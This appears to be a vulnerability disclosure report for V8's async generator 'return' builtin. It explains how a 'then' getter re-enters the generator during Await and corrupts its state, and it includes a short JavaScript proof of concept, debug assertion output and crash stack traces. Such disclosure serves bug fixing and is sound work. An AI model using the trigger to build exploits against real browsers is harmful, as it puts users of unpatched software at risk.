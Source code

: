 Here's a snippet of AsyncGeneratorReturn. (https://cs.chromium.org/chromium/src/v8/src/builtins/builtins-async-generator-gen.cc?rcl=bcd1365cf7fac0d7897c43b377c143aae2d22f92&l=650)

  Node* const context = Parameter(Descriptor::kContext);
  Node* const outer_promise = LoadPromiseFromAsyncGeneratorRequest(req);
  Node* const promise =
      Await(context, generator, value, outer_promise, AwaitContext::kLength,
            init_closure_context, var_on_resolve.value(), var_on_reject.value(),
            is_caught);

  CSA_SLOW_ASSERT(this, IsGeneratorNotSuspendedForAwait(generator));
  StoreObjectField(generator, JSAsyncGeneratorObject::kAwaitedPromiseOffset,
                   promise);

The Await methods calls ResolveNativePromise which calls InternalResolvePromise which can invoke a user JavaScript code through a "then" getter. If the AwaitedPromise is replaced by the user script, the AwaitedPromise will be immediately overwritten after the call to Await, this may lead the generator to an incorrect state.

PoC:
async function* asyncGenerator() {
}

let gen = asyncGenerator();
gen.return({
    get then() {
        delete this.then;

        gen.next();
    }
});

Log in debug mode:
abort: CSA_ASSERT failed: IsNotUndefined(request) [../../src/builtins/builtins-async-generator-gen.cc:328]


==== JS stack trace =========================================

Security context: 0x2b29083a3a71 <JSObject>#0#
    2: /* anonymous */(this=0x19b7b0603721 <JSGlobal Object>#1#,0x19b7b060d139 <Object map = 0x189055388c91>#2#)

==== Details ================================================

[2]: /* anonymous */(this=0x19b7b0603721 <JSGlobal Object>#1#,0x19b7b060d139 <Object map = 0x189055388c91>#2#) {
// optimized frame
--------- s o u r c e   c o d e ---------
<No Source>
-----------------------------------------
}
==== Key         ============================================

 #0# 0x2b29083a3a71: 0x2b29083a3a71 <JSObject>
 #1# 0x19b7b0603721: 0x19b7b0603721 <JSGlobal Object>
 #2# 0x19b7b060d139: 0x19b7b060d139 <Object map = 0x189055388c91>
=====================

Received signal 4 ILL_ILLOPN 7fb143ae2781

==== C stack trace ===============================

 [0x7fb143ae643e]
 [0x7fb143ae6395]
 [0x7fb1436ce390]
 [0x7fb143ae2781]
 [0x7fb1430f23ae]
 [0x7fb1430f1ef7]
 [0x1c8e08204384]
[end of stack trace]
Illegal instruction

This bug is subject to a 90 day disclosure deadline. After 90 days elapse
or a patch has been made broadly available, the bug report will become
visible to the public.